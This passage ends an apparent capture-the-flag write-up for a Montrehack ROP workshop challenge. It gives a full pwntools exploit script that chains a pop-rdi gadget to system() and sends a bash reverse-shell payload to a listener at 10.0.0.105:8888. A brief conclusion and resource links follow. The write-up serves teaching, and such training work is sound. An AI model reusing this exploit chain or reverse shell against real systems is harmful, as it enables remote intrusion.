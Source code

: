 ```python
#!/usr/bin/env python
from pwn import *
from struct import pack
def q(addr): return pack('<Q', addr)

REMOTE = ('ctf.segfault.me', 3002)
LHOST  = "10.0.0.105"
LPORT  = "8888"

RDI    = 0x4017b3 # pop rdi; ret
SYSTEM = 0x401652 # call system
PAYLOAD = "bash -i >& /dev/tcp/{}/{} 0>&1\x00".format(LHOST, LPORT)
# PAYLOAD = "cat ~/flag.txt; exit\x00"

p = remote(*REMOTE)

# Set motd to the system() command
p.sendline("2")
p.sendline("1")
p.sendline(PAYLOAD)

# Set rating to &system
p.sendline("3")
p.sendline("1")
p.sendline(str(SYSTEM))

# Set return address to gadget chain
p.sendline("3")
p.sendline("0")
p.sendline(str(RDI))

# The program recovers because we return right after `call system()` => exit.
p.sendline("4")
print(p.readall())
```

[ref-ropgadget]: https://github.com/JonathanSalwan/ROPgadget "ROPGadget on Github"
[ref-aslr]: https://en.wikipedia.org/wiki/Address_space_layout_randomization "ASLR on Wikipedia"

## Conclusion

This challenge's purpose was to further solidify the concept of `ret2libc` and
introduce gadgets without too much added work. A simple, straight forward gadget
without any preventive measures allowed for a smooth introduction of the
technique and tools required for modern ROP exploitation.

### Resources

* [Montrehack Workshop: Slides and Presentation (Video)][presentation]
* [Montrehack Workshop: Solutions for challenge 1 & 2 (Video)][solutions]
* [Slides on Github][slides]

[presentation]: https://www.twitch.tv/videos/384854978 "Presentation of Slides"
[solutions]: https://www.twitch.tv/videos/384854977 "Presentation of Solutions"
[slides]: https://github.com/alxbl/montrehack-rop101/blob/master/slides_final.pdf "Slides PDF"



[1]: https://segfault.me/2019/03/03/montrehack-writeups-motd-v0-1/ "Previous Writeup"
[src]: https://github.com/alxbl/montrehack-rop101 "ROP 101: Sources & Solutions"
[ref-relro]: https://ctf101.org/binary-exploitation/relocation-read-only/ "CTF101: Relocate Read-Only Segments"
[ref-loader]: https://www.iecc.com/linker/linker10.html "Dynamic Linking"
